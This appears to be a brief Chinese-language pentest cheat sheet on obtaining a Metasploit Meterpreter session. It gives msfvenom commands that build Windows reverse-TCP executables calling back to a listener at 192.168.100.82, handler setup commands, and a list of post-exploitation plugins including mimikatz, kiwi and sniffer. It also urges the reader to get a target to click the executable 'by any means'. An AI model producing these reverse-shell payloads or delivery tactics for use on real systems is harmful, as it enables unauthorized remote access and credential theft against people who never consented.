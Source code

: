 
# 获取Meterpreter会话

```
https://uknowsec.cn/posts/uncategorized/%E5%90%8E%E6%B8%97%E9%80%8F%E4%B9%8Bmeterpreter%E4%BD%BF%E7%94%A8%E6%94%BB%E7%95%A5.html
```

##  使用msfvenom生成payload

```
msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=192.168.100.82 lport=6565 -f exe -o /re.exe

msfvenom -p windows/x32/meterpreter_reverse_tcp lhost=192.168.100.82 lport=6565 -f exe -o /jojo_32.exe

msfvenom -p windows/meterpreter/reverse_tcp lhost=接受ip地址 lport=接收端口 -f exe -o rabbit.exe
```


```
 use exploit/multi/handler
```
```
set payload windows/x64/meterpreter_reverse_tcp 
```
``` 
set lhost 192.168.100.82  //设置接受payload的地址，我们这里设置MSF的地址
```
```
set lport 6565          // 设置接受的端口，这个自己自定义，只要不与其它端口冲突就可以
```
```
 run
```
然后获得会话

## 你只要想方设法让他点击到这个exe即可 接下来交给老爹!
 
将生成的exe文件或者其它类型的payload文件在目标上执行，就可以获得一个meterpreter会话，之后就可以使用msf开展后渗透测试的相关工作。

![](img/2.png)

## 可能会用到的常用代码整理

## load -l

查看所有可以使用的插件
```
espia
extapi
incognito
kiwi
lanattacks
mimikatz
peinjector
powershell
priv
python
sniffer       
stdapi
unhook
winpmem
```
